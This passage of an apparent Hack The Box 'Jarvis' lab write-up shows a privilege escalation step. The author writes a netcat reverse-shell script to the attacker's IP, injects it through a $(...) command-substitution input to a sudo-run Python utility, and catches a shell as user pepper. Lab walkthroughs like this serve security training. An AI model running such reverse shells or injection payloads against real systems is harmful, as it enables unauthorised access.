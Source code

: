 First, let's prepare a payload.

```bash
www-data@jarvis:/dev/shm$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.4 9001' > rshell_9001.sh
<\nnc -e /bin/bash 10.10.14.4 9001' > rshell_9001.sh
www-data@jarvis:/dev/shm$ cat rshell_9001.sh
cat rshell_9001.sh
#!/bin/bash

nc -e /bin/bash 10.10.14.4 9001
www-data@jarvis:/dev/shm$ chmod +x rshell_9001.sh
chmod +x rshell_9001.sh
www-data@jarvis:/dev/shm$ ls -al
ls -al
total 4
drwxrwxrwt  2 root     root       60 Apr 15 01:56 .
drwxr-xr-x 16 root     root     2900 Apr 12 22:44 ..
-rwxr-xr-x  1 www-data www-data   45 Apr 15 01:56 rshell_9001.sh
```

Then, let's run this payload via command injection.

```bash
www-data@jarvis:/dev/shm$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/dev/shm/rshell_9001.sh)
```

```bash
┌──(kali㉿kali)-[~/htb/jarvis]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.143] 58308
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
whoami
pepper
```

I got `pepper`'s shell.



# Shell as `root`
